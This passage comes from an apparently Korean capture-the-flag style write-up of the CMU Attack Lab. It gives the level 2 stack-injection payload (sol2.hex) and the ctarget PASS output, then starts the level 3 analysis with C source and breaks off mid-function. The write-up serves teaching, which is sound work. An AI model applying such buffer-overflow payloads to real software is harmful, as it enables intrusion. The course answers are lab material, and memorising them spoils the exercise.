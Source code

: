                 </td>
            <td style="text-align: center">
                c3
                </td>
            <td>
                `ret`<br /><br />`pop rdi`를 하면서 현재 `rsp`는 `touch2`의 주소를 가리키고 있는데, 이때 `ret`를 하면 우리는 `rdi`에 cookie가 담긴 채로 `touch2`를 실행할 수 있다.
                </td>
        </tr>
    </tbody>
</table>



### Answer

#### sol2.hex


```json
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
68 d6 60 55 00 00 00 00
73 01 96 78 00 00 00 00
a5 18 40 00 00 00 00 00
5f
c3
```

#### Result

```r
$ cat sol2.hex | ./hex2raw | ./ctarget -q
Cookie: 0x78960173
Type string:Touch2!: You called touch2(0x78960173)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	84
	course	15213-f15
	lab	attacklab
	result	84:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 68 D6 60 55 00 00 00 00 73 01 96 78 00 00 00 00 A5 18 40 00 00 00 00 00 5F C3 
```



## Level 3

### 분석

#### Objective

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
```